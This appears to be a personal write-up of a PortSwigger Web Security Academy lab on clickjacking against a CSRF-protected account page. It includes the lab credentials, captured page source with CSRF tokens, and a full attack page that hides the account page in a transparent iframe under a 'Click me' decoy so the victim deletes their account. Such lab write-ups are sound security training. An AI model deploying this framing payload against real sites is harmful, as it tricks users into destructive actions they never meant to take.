 # Basic clickjacking with CSRF token protection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected), you'll learn: Basic clickjacking with CSRF token protection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains login functionality and a delete account button that is protected by a [CSRF token](https://portswigger.net/web-security/csrf/tokens). A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102033915.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102033934.png)

In here, we can update our email and delete account.

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class='button' type='submit'> Update email </button>
    </form>
    <form id=delete-account-form action="/my-account/delete" method="POST">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

Also, they're using a CSRF token try to prevent CSRF attack.

**Now, let's build a hidden `<iframe>` and a clickbait text:**
```html
<html>
    <head>
        <title>Basic clickjacking with CSRF token protection</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:495px;
                left:60px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a2f006904c03654c0f5634d009f00aa.web-security-academy.net/my-account"></iframe>
    </body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102044948.png)

**Then, host it on the exploit server, and deliver to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102045023.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102045030.png)

We did it!

# What we've learned:

1. Basic clickjacking with CSRF token protection